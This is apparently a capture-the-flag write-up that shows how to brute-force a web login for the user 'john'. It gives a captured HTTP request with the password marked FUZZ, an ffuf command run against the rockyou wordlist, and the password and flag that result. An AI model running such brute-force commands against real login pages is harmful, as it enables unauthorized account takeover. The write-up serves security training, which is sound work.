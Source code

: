 
It is said in the description that password is weak so we can try and brute force it

Given username : john

Send a dummy request with random password, from burp, select the option
`Copy to file` and save the request in a file and name it `req.txt`

Modify it like this

```text
POST / HTTP/1.1
Host: 3.23.56.243:9007
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://3.23.56.243:9007
Connection: close
Referer: http://3.23.56.243:9007/
Cookie: role=user
Upgrade-Insecure-Requests: 1

username=john&password=FUZZ&submit=Login
```

In the value of password write `FUZZ`

Now we are going to brute force the password

```sh
ffuf -c -request req.txt -request-proto http -w /usr/share/wordlists/rockyou.txt:FUZZ -fs 2050 -rate 30
```

We find the password is
```sh
P@ssw0rd                [Status: 200, Size: 2070, Words: 819, Lines: 82, Duration: 407ms]
```

Login with
username : john
password : P@ssw0rd

And we get the flag
flag : texsaw{brut3_f0rce_p@ssword!}